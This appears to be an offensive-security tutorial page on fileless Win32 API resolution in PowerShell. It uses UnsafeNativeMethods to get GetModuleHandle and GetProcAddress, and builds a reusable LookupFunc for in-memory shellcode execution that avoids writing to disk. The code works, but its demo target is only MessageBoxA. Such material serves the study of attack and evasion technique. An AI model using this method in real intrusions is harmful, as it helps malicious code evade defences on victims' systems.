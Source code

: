 ```yaml
---
title: Unsafe Native Methods
layout: default
parent: Reflection Shell Code
grand_parent: Client Side Execution
nav_order: 1
---
```


1. To avoid writing to disk, we need to perform dynamic lookup of function address instead of `Add-Type` and `DllImport`. 
2. This can be achieved by using Win32 API `GetModuleHandle` and `GetProcAddress`.
3. Since we cannot use them directly to avoid writing to disk, need to find assembly that we can use to invoke these API.

    ```powershell
    $Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()
    $Assemblies |
      ForEach-Object {
        $_.GetTypes()|
          ForEach-Object {
            $_ | Get-Member -Static| Where-Object {
              $_.TypeName.Contains('Unsafe')
            }
        } 2> $null
      }
    ```

4. Next, perform a filter and search for the location that these APIs are located by adding `$_.Location`. Based on the results, they are `static` and the typename is `Microsoft.Win32.UnsafeNativeMethods` (Use `Contains` instead of `Equals` to avoid error).

    ```powershell
    $Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()
    $Assemblies |
      ForEach-Object {
        $_.Location
        $_.GetTypes()|
          ForEach-Object {
            $_ | Get-Member -Static| Where-Object {
              $_.TypeName.Contains('Microsoft.Win32.UnsafeNativeMethods')
            }
        } 2> $null
      }
    ```

5. After we identify that it is coming from System.dll, we can use the following to search for the required API (in this case `GetModuleHandle`).

    ```powershell
    $systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') })
    $unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
    $GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
    ```

6. Then we can use the following search for the DLL base address (for example user32.dll):

    ```powershell
    $GetModuleHandle.Invoke($null, @("user32.dll"))
    ```

7. If you try to do a `$GetProcAddress = $unsafeObj.GetMethod('GetProcAddress')` you will get an error "Ambiguous match found.". Instead we need to do this for multiple occurence (we are using tmp[0] which is the first entry):

    ```powershell
    $user32 = $GetModuleHandle.Invoke($null, @("user32.dll"))
    $tmp=@()
    $unsafeObj.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
    $GetProcAddress = $tmp[0]
    $GetProcAddress.Invoke($null, @($user32, "MessageBoxA"))
    ```

8. Finally to reuse this multiple times, wrap them in function:

    ```powershell
    function LookupFunc {
      Param ($moduleName, $functionName)
      $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
      Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
        Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
      $tmp=@()
      $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
      return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,
    @($moduleName)), $functionName))
    }
    ```

9. To use the function above, do this:

    ```powershell
    LookupFunc "user32.dll" "MessageBoxA"
    ```
